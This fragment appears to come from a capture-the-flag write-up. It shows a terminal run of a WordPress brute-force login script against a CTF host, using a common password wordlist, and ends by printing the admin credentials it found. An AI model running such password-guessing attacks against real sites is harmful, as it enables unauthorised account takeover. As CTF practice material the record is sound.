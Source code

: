 $ ./wpbf.php -t http://ctf.sharif.edu:8082/ -u admin -p ~/hacking/dictionaries/SecLists/Passwords/10_million_password_list_top_10000.txt

+ WordPress Brute Force Login (by theMiddle)
+ ------------------------------------------
+ set target to http://ctf.sharif.edu:8082
+ set user to admin|-p|/Users/bl4de/hacking/dictionaries/SecLists/Passwords/10_million_password_list_top_10000.txt
+ set password file to /Users/bl4de/hacking/dictionaries/SecLists/Passwords/10_million_password_list_top_10000.txt
[5467/10000] Trying admin/blond
+
+ Found user / password for http://ctf.sharif.edu:8082: admin / blond
+

